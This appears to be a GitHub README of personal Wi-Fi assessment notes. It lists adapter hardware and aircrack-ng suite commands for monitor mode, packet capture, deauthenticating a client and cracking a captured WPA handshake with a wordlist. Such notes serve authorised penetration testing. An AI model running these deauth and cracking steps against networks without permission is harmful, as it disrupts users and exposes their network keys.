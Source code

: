 # Wi-Fi Collection and Attack Techniques

This are techniques that I have found to work during WiFi assessments. This isn't an "end all, be all" list.</br>

* Identification/Discovery
* Collection
* Attack

# Hardware:
- key is having an Atheros chipset in the wireless adapter
- TP-Link TL-WN722N - has to be earlier than version 2
- Alfa AWUS051NH

# Configuration
* System setup
* Might need to kill Network Manager
```
/etc/init.d/network-manager status
```
```
/etc/init.d/network-manager stop
```
* Ensure hardware is connected
```
lsusb
```
* Check wireless status of network adapter
```
iwconfig
```
* If need to bring up the interface
```
ifconfig wlan0 up
```
* This is an optional step: can stay in Managed mode and scan to do light discovery
```
iwlist wlan0 scanning
```

# Monitor Mode
* This sets wlan0 into Monitor mode. This sets a new interface, typically, mon0 or a variation of ie. wlanmon0
```
airmon-ng start wlan0
```
* Watch aircrack-ng's output of errors. Might need to run:
```
airmon-ng check kill
```
* Monitor for traffic on Monitor interface (i.e. mon0)
```
airodump-ng mon0 
```
* Stopping Monitor Mode when needed
```
airmon-ng stop wlan0mon
```

# Capture traffic
* Interface will your monitor interface that was set above i.e. mon0
```
airodump-ng -c <Channel> --bssid <AP_MAC> -w <File_Prefix> <interface>
```

# WPA-PSK Attack
* Attacking WPA-PSK - Goal: acquire PSK (pre-shared key)
- Need to identify:
	* Name of the wireless network (ESSID)
	* MAC address of the AP (BSSID)
	* Channel that the AP
	* Victim MAC
	* need to capture 4 way handshake
	* Then crack - see below

# Deauth Attack
* In one terminal collect
``` 
airodump-ng -c <CHANNEL> --bssid  <AP_MAC> -w <FILE_PREFIX> <INTERFACE>
```
* In another termainl deauth
```
aireplay-ng --deauth 25 -a <AP_MAC> -c <VICTIM_MAC> <INTERFACE>
```

# Cracking
* Crack with John the Ripper
```
/usr/sbin/john --rules -w=/usr/share/wordlists/rockyou.txt --stdout | aircrack-ng -w - -e <essid> capture.cap
```
* Brute-Force to get the WPA Key (assumption is the packet capture contains the 4 way handshake)
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa_capture.pcap
```
* I've heard hashcat is more affective but I've have not tried this method.

# Wireshark Tips
* Don't forget to add key information to Wireshark
	* From Menu options: Edit->Preferences->IEEE 802.11
